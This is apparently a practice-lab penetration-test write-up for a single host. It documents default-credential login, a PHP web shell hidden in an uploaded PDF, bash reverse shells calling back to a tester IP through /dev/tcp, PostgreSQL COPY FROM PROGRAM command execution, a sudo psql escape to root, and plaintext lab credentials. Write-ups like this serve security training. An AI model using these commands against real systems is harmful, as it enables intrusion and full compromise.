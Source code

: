 ## Takeaway
## Metadata
- Initial recon will find URL `http://192.168.210.225:8090/backend/` gives status code `403`. 
	- However, with further directory fuzzing, One can find `http://192.168.210.225:8090/backend/default/index.php` presents a login page.![[Pasted image 20240327120617.png]]![[Pasted image 20240327121207.png]]![[Pasted image 20240327120632.png]]
		- Default Credential `admin:admin` can be used to login. After login, one are offered an opportunity to upload PDF files.
	- Directory fuzzing will identify potentially all uploads are located at `http://192.168.210.225:8090/backend/default/uploads/`. Although the directory accessing directory itself gives `403` but not individual files. If we upload an `blank.pdf`, one can access it at `http://192.168.210.225:8090/backend/default/uploads/blank.pdf`.![[Pasted image 20240327121415.png]]
	- Furthermore, it seems that the check only cares about the actual format of the file without validating the file extension.![[Pasted image 20240327121856.png]]
- Within `config.php` at `~/backend/default`, we can locate a pair of credential for accessing `postgresql` database as `postgres:EAZT5EMULA75F8MC`.![[Pasted image 20240327145232.png]]
	- Connecting for database using the credential can confirm the `postgresql` database running is of version `12.12` which is vulnerable to `Authenticated RCE` (CVE-2019–9193).![[Pasted image 20240327145451.png]]
		- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution
- Run `sudo -l` as `postgres` will identify the user can run `/usr/bin/psql` without password as any user.![[Pasted image 20240327145930.png]]
# Exploitation
# Shell as www-data
- Run `echo "<?php echo system($_REQUEST['cmd']); ?>" >> blank.pdf` and upload `blank.pdf` while using `burpsuite` to capture the request and rename the file to `blank.php`.
- Set up listener and navigate `http://192.168.210.225:8090/backend/default/uploads/blank.php?cmd=/bin/bash+-c+'/bin/bash+-i+>%26+/dev/tcp/192.168.45.189/80+0>%261'` to initiate the reverse shell call back.
# Shell as postgres
- Run `psql -h 127.0.0.1 -d webapp -U postgres -W` and enter password `EAZT5EMULA75F8MC` to login `PostgreSQL` database.
- Set up listener and run the following code to receive a reverse shell as `postgres`:
```shell
EATE TABLE cmd_exec(cmd_output text); -- Create the table you want to hold the command output
COPY cmd_exec FROM PROGRAM '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.45.189/443 0>&1"';        -- Run the system command via the COPY FROM PROGRAM function
SELECT * FROM cmd_exec;                 -- [Optional] View the results
DROP TABLE IF EXISTS cmd_exec;          -- [Optional] Remove the table
```
# PrivEsc
- As `postgres`, run `sudo /usr/bin/psql -h 127.0.0.1 -U postgres -W`, `\?` , `!/bin/bash` to obtain a root session.
	- Do not use `sudo /usr/bin/psql` since by default, `psql` try to login the database as the user running the command, in the case here `root`. Hence, the following error will appear `psql: error: FATAL:  role "root" does not exist`.
# Credential
- Credential for `postgresql`:
	- `postgres`: EAZT5EMULA75F8MC
- `SKYLARK\kiosk`: XEwUS^9R2Gwt8O914![[Pasted image 20240327124118.png]]